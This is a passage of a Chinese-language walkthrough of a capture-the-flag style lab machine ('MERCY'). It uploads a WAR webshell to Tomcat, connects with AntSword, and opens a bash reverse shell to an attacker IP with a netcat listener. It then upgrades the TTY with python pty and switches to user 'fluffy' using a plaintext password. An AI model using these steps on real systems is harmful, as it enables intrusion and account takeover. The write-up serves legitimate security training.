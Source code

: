 
上传`exp.war`以后进行连接：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403251401783.png" alt="image-20240325133844681" style="zoom:50%;" />

蚁剑连接一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403251401784.png" alt="image-20240325134443051" style="zoom:33%;" />

反弹shell到kali上去：

```bash
# tomcat
bash -c 'exec bash -i &>/dev/tcp/10.161.181.188/1234 <&1'
```

```bash
# kali
nc -lvvp 1234
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403251401785.png" alt="image-20240325134653484" style="zoom:50%;" />

## 提权

### 切换至fluffy

刚才包含的时候有这个用户：

```apl
fluffy
freakishfluffybunny
```

尝试是否阔以进行切换：

```bash
tomcat7@MERCY:/var/lib/tomcat7$ su fluffy    
su fluffy
su: must be run from a terminal
```

扩展一下：

```bash
python -c "import pty;pty.spawn('/bin/bash')"
```

再次切换：

```bash
tomcat7@MERCY:/var/lib/tomcat7$ su fluffy
su fluffy
Password: freakishfluffybunny

Added user fluffy.

$ whoami;id
whoami;id
fluffy
uid=1003(fluffy) gid=1003(fluffy) groups=1003(fluffy)
```
